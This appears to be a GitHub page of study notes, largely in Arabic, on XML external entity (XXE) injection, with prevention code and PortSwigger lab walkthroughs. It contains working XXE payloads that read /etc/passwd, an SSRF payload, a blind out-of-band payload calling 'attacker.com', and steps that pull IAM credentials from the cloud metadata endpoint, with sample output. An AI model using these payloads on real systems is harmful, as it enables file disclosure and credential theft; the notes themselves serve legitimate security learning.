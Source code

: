 # XML external entity (XXE) injection

- <details>
     <summary>XXE</summary>

     
     # XML external entity (XXE) injection
     
     في هذا الملف نشرح ما هو **XML external entity injection (XXE)**، نعرض أمثلة شائعة، نشرح كيفية العثور على الثغرة واستغلالها بأنواعها المختلفة، ونلخّص طرق الوقاية.
     
     > **تحذير**: الأمثلة والتعليمات هنا مخصّصة للأغراض التعليمية واختبار الأمن على بيئات قانونية (مختبرات PortSwigger / HTB / VM خاص بك). لا تستخدمها على أنظمة غير ملكك.
     
     ---
     
     ## 1) ما هو XXE باختصار
     
     **XML External Entity (XXE)** هو ثغرة تحدث عندما يعالج السيرفر بيانات XML ويقبل تعريفات DTD/Entities خارجية بدون تحقّق. المهاجم يقدر يعرف `ENTITY` مرتبط بملف أو URL، وبهذا يستطيع:
     
     * الاطّلاع على ملفات على ملفّ نظام السيرفر (file disclosure).
     * تنفيذ **Server-Side Request Forgery (SSRF)** للوصول إلى أنظمة داخلية يقدر التطبيق الوصول لها.
     * استخراج بيانات *out-of-band* (مثل DNS/HTTP callbacks) إلى نظام المهاجم.
     * التسبّب بأخطاء تكشف بيانات حسّاسة (error-based).
     
     ## 2) لماذا تحدث الثغرة؟
     
     لأن مكتبات ومعالجات XML الافتراضية تدعم خصائص مثل DTDs وExternal Entities، وفي كثير من التطبيقات لا يقوم المطوّرون بتعطيل هذه الميزات أو تأمينها.
     
     ## 3) أنواع هجمات XXE
     
     * **استرجاع الملفات مباشرة (Direct file retrieval)**: تعريف `ENTITY` يقرأ ملف محلي ويُدرَج في الاستجابة.
     * **SSRF عبر XXE**: تعريف `ENTITY` يوجّه إلى URL داخلي (مثلاً `http://127.0.0.1:8080/admin`).
     * **Blind OOB (DNS/HTTP callback)**: لا تعرض البيانات في الاستجابة لكن السيرفر يتصل بعنوان يتحكم فيه المهاجم لتسليم المحتوى.
     * **Error-based**: التلاعب بالـXML لإحداث خطأ يحتوي على بيانات حسّاسة.
     
     ## 4) أمثلة Payload )
     
     **تنبيه قوي:** استخدم الأمثلة في بيئات قانونية فقط.
     
     **File disclosure (بسيط):**
     
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>&xxe;</root>
     ```
     
     **SSRF (طلب HTTP داخلي):**
     
     ```xml
     <!DOCTYPE root [
       <!ENTITY xxe SYSTEM "http://127.0.0.1:8000/secret">
     ]>
     <root>&xxe;</root>
     ```
     
     **Blind OOB (DNS/HTTP callback):**
     
     ```xml
     <!DOCTYPE root [
       <!ENTITY % remote SYSTEM "http://attacker.com/payload.dtd">
       %remote;
     ]>
     <root>&send;</root>
     ```
     
     `payload.dtd` على جهة المهاجم يمكن أن يعرّف ENTITY يرسل محتوى ملف إلى `attacker.com` أو يسبب DNS lookup فريد.
     
     ## 5) كيف تلاقي XXE )
     
     * ابحث عن نقاط إدخال تستقبل XML (APIs، SOAP، SAML assertions، RSS/Atom، file uploads).
     * جرّب إدخال نص يحتوي `<!DOCTYPE` — إذا ظهر خطأ متعلق بالـDTD فقد تكون نقطة دخول.
     * استخدم أدوات مثل Burp Repeater أو curl لإرسال الـpayloads.
     * لاختبارات OOB استخدم Burp Collaborator أو DNSLog أو خدمة DNS قابلة للتحكّم. أي callback يؤكّد وجود ثغرة blind XXE.
     * راقب السجلات لسلوك outgoing HTTP/DNS أثناء الاختبار.
     * استخدم أدوات أتمتة كـBurp Scanner أو Nuclei مع قوالب XXE، لكن اليدوي غالباً أقوى للحالات المعقدة.
     
     ## 6) استراتيجيات الاستغلال حسب النوع
     
     * **إذا كانت الاستجابة تعرض المحتوى مباشرة** → استخدم payloads لاسترجاع ملفات.
     * **إذا لم تظهر بيانات لكن تملك OOB** → استخدم DTD خارجي يطلب مورد على سيرفر المهاجم.
     * **إذا كان parser يمنع DTD لكن يسمح بالـentities** → جرّب تقنيات blind عبر الأخطاء أو التوقّعات الزمنية.
     * **إذا كان السيرفر يمنع تحميل موارد خارجية** → ابحث عن رسائل خطأ تفصّل أجزاء من الملف.
     
     ## 7) كيف تمنع XXE — خطوات عملية
     
     1. **تعطيل معالجة DTD والـExternal Entities** في parser (الأهم). أمثلة:
     
        * **Java (javax.xml):**
     
        ```java
        factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        ```
     
        * **.NET:**
     
        ```csharp
        XmlReaderSettings settings = new XmlReaderSettings();
        settings.DtdProcessing = DtdProcessing.Prohibit;
        ```
     
        * **Python:** استخدم مكتبة `defusedxml` بدلاً من معالجات XML الافتراضية غير الآمنة.
     
        * **PHP:** `libxml_disable_entity_loader(true);` — راجع التوثيق لأن بعض الدوال تغيّرت في الإصدارات الحديثة.
     
     2. **تحديث المكتبات**: استعمل نسخ parser آمنة ومحدّثة.
     
     3. **التحويل إلى JSON** إذا لم تكن تحتاج ميزات XML المعقّدة.
     
     4. **تقييد الشبكة والصلاحيات**: امنع التطبيق من إجراء طلبات خارجية أو قيّدها جدارياً، وشغّل الخدمة بصلاحيات محدودة.
     
     5. **التحقّق من المدخلات**: لا تعالج XML مباشرة من مصادر غير موثوقة دون تحقق.
     
     6. **مراقبة outgoing DNS/HTTP** وفعّل Logging/IDS.
     
     7. **اختبار أمني دوري**: ضمن فحص XXE ضمن الاختبارات الآلية واليدوية.
     
     ## 8) نصايح في الكود — أمثلة سريعة
     
     * **Java**: تعطيل DTD كما سلف.
     * **Python**: استخدم:
     
     ```python
     from defusedxml import ElementTree as ET
     root = ET.fromstring(user_xml)
     ```
     
     * **.NET**: منع DTD عبر `XmlReaderSettings`.
     
     ## 9) إشارات إنك معرض للثغرة
     
     * التطبيق يتعامل مع SOAP, SAML, RSS أو يقبل ملفات XML من المستخدمين.
     * وجود مكتبات معالجة XML قديمة.
     * سجلات تظهر محاولات تحميل موارد خارجية أثناء معالجة XML.
     
     
     
          
  </details>


<details>
     <summary>Exploiting XXE to retrieve files</summary>

# Exploiting XXE to retrieve files


---

## 1) الفكرة  
الهدف هو تعريف **كيان خارجي** (external entity) داخل `DOCTYPE` في الـXML بحيث تكون قيمته محتوى ملف محلي (مثلاً `/etc/passwd`) ثم استعمال هذا الكيان داخل عنصر من عناصر الـXML الذي يعالجه السيرفر. لو معالج الـXML يحلّ الكيانات الخارجية، سيستبدل `&xxe;` بمحتوى الملف ويُرجِع هذا المحتوى في الاستجابة — وبكده نطلع الملف.

---

## 2) المثال الأصلي (قبل التعديل)
التطبيق بيبعت XML للسيرفر للتحقّق من حالة المنتج مثلاً:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
   <productId>381</productId>
</stockCheck>
```

---

## 3) الـPayload المستخدم للاستغلال
نعدل الـXML بحيث نضيف `DOCTYPE` ونعرف `ENTITY` من ملف النظام ثم نستخدمه داخل `<productId>`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
   <productId>&xxe;</productId>
</stockCheck>
```

**شرح سريع للسطرين المهمين:**
- `<!DOCTYPE foo [...]>`: إعلان DTD داخلي يسمح بتعريف كيانات داخل القوسين.  
- `<!ENTITY xxe SYSTEM "file:///etc/passwd">`: نعرّف كيان اسمه `xxe` وقيمته تأتي من ملف `/etc/passwd`.  
- في مكان `<productId>` نستخدم `&xxe;` علشان يتبدل بمحتوى الملف عند المعالجة.

---

## 4) النتيجة المتوقعة لو الاستغلال نجح
لو السيرفر يطبع قيمة `productId` داخل رسالة أو في الاستجابة، ومُعالج الـXML يسمح بتحميل الكيانات، ستبدو الاستجابة مثل:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

---

## 5) لماذا الاستغلال ده ينجح تقنيًا
- مواصفة XML تدعم DTDs والكيانات (`<!ENTITY>`).  
- بعض معالجات XML تسمح بكيانات خارجية (`SYSTEM URI`) وتحملها من نظام الملفات أو شبكات.  
- إذا لم يقُم المطورون بتعطيل DTD/الكيانات أو تقييد صلاحيات العملية، المعالج سيجلب الملف ويضع محتواه مكان الـentity.

---

## 6) حالات يفشل فيها الاستغلال
- parser مُعدّ لتعطيل DTD/الكيانات (مثلاً `disallow-doctype-decl = true`).  
- صلاحيات العملية تمنع القراءة من مسارات النظام (sandbox / chroot / limited user).  
- التطبيق **لا يعيد** (لا يطبع) قيم الإدخال في الاستجابة أو يعالجها داخلياً بدون إظهارها.  
- هناك فلترة تزيل `<!DOCTYPE` أو تحظر URIs مثل `file:///`.  
- السيرفر يقوم بتحويل XML بطريقة تفصل أو تمنع توسعة الكيانات (مثلاً parsing آمن أو تحويل إلى JSON مبكّر).

---

## 7) Variations مفيدة للمعرفة
- **SSRF عبر XXE**: بدل `file:///` تضع `http://127.0.0.1:8000/secret` فتجبر السيرفر على طلب خدمة داخلية.  
- **Blind OOB (DNS/HTTP callback)**: لو الاستجابة لا تكشف الملف، تقدر تستخدم DTD خارجي يجبر السيرفر يتصل لنطاق تملكه (مثل Burp Collaborator) وترصده لالتقاط البيانات.  
- **Error-based extraction**: تصنع خطأ parsing ينتج رسالة خطأ تحوي بيانات حساسة.

---

## 8) كيف تكشف الثغرة أثناء اختبار أمني
- جرّب إدخال `<!DOCTYPE` أو payloads بسيطة وشوف الاستجابة والأخطاء.  
- استخدم أدوات OOB مثل Burp Collaborator أو خدمات DNSLog لمراقبة أي اتصالات صادرة عند تجربة DTD خارجي.  
- راجع سجلات الخادم: طلبات DNS أو HTTP الصادرة، وأخطاء parser أثناء المعالجة.  
- استخدم Burp Repeater لإعادة بناء الطلبات يدويًا — الأتمتة مفيدة لكن اليدوي في حالات XXE غالبًا أفضل.

---

## 9) كيفية الوقاية (أفضل ممارسات)
1. **عطّل DTD وExternal Entities في الـXML parser** — أهم إجراء:  
   - Java (مثال):
   ```java
   factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
   factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   ```
   - Python:
   ```python
   from defusedxml import ElementTree as ET
   root = ET.fromstring(user_xml)
   ```
   - .NET:
   ```csharp
   XmlReaderSettings settings = new XmlReaderSettings();
   settings.DtdProcessing = DtdProcessing.Prohibit;
   ```
   - PHP: راجع توثيق `libxml_disable_entity_loader` وتحديثات الإصدارات الحديثة.
2. **شغّل التطبيق بأقل الصلاحيات** ومنع الوصول غير الضروري لملفات النظام.  
3. **قيّد الاتصالات الصادرة** من الخادم (جدار ناري، قواعد شبكة داخلية).  
4. **افضل لتحويل البيانات**: لو JSON يكفي بدّل XML إلى JSON.  
5. **مراقبة Logging/IDS** للاتصالات الصادرة (DNS/HTTP) والتنبيهات.  
6. **تحديث المكتبات** وإدراج فحوص XXE ضمن الاختبارات الدورية.

---

## 10) خاتمة وتنبيه قانوني
المثال السابق هو حالة تعليمية قوية لاختبار XXE في بيئات مُصرّح بها (مختبرات مثل PortSwigger أو بيئة VM خاصة بك). استخدام الطرق دي على أنظمة غير مصرح لك بفحصها هو اختراق جرمي — لا تعمل ده إلا في بيئة قانونية.

---

إذا تحب، أقدر أعمل لك:
- ملف Markdown جاهز للتحميل (أحطه دلوقتي).  
- أو نحلّ lab عملي سوا خطوة بخطوة (Burp Repeater + Burp Collaborator) داخل بيئة اختبار آمنة — قلّي تختار إيه.




     
</details>


















---


<details>
     <summary>Lab: Exploiting XXE using external entities to retrieve files</summary>

1. navigate products and choose one of them then cick **`check stock`**

<img width="921" height="581" alt="image" src="https://github.com/user-attachments/assets/f6fc78c2-2aae-414a-8258-7549344143ae" />

2. we find this `XML`

```html
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
     <productId>2</productId>
     <storeId>1</storeId>
  </stockCheck>
```

<img width="1411" height="786" alt="image" src="https://github.com/user-attachments/assets/14875164-d4d9-4b66-ae80-c196e1b9cc98" />


3. now try to get content of **`/etc/passwd`**

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```

<img width="1420" height="715" alt="image" src="https://github.com/user-attachments/assets/f7ec8761-39da-4e2f-ac2c-5f0139977199" />


     
</details>















<details>
     <summary>Lab: Exploiting XXE to perform SSRF attacks</summary>

1. navigate products and choose one of them then cick **`check stock`**

<img width="921" height="581" alt="image" src="https://github.com/user-attachments/assets/f6fc78c2-2aae-414a-8258-7549344143ae" />

2. we find this `XML`

```html
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
     <productId>2</productId>
     <storeId>1</storeId>
  </stockCheck>
```

<img width="1411" height="786" alt="image" src="https://github.com/user-attachments/assets/14875164-d4d9-4b66-ae80-c196e1b9cc98" />


3. now try to Do ssrf attack

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```

<img width="1451" height="720" alt="image" src="https://github.com/user-attachments/assets/a64dda95-439e-4337-8d69-bcc16d70277c" />

```
"Invalid product ID: latest"
```

## let's try 

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```


`found`

```
"Invalid product ID: meta-data"
```

## try again 

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/meta-data"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```

> ## untill reach  

```html
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
   <stockCheck>
      <productId>&xxe;</productId>
      <storeId>1</storeId>
    </stockCheck>
```

**`output`**

```

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2025-09-27T16:39:23.945563032Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ddHGhchWgerX7KM3G1S5",
  "SecretAccessKey" : "JT2GggMKVTJnqBcug4RviThUhQC3Z21ZMfjPKBFb",
  "Token" : "Fxpj4BARs6E098texzKOeSL9GyLIMz6acyEhzzk4HZ3JDLJ2PHv3jZutSWgBXvIKa70LHRwEhFwqzAunvngn1FbTbg6kKTq8M6i1jzEkoCOfrlTiY0urPhRHy5FIQhLVZym9J6B8rlGXiBWPr5RQGnplWqTeRs7fj1NWhsT7wECTU1dGfg0lZpYuAXoERPi9ZRFqLtaPGHI1ijpB8uZclPBgaI7wTcmFmyMU90J9X0vDm8Hlsj5LiAW7pVZlZEsQ",
  "Expiration" : "2031-09-26T16:39:23.945563032Z"
}"
```


<img width="1463" height="700" alt="image" src="https://github.com/user-attachments/assets/c232d26c-f012-4bfd-9590-de12a1bc4e77" />



     
</details>









































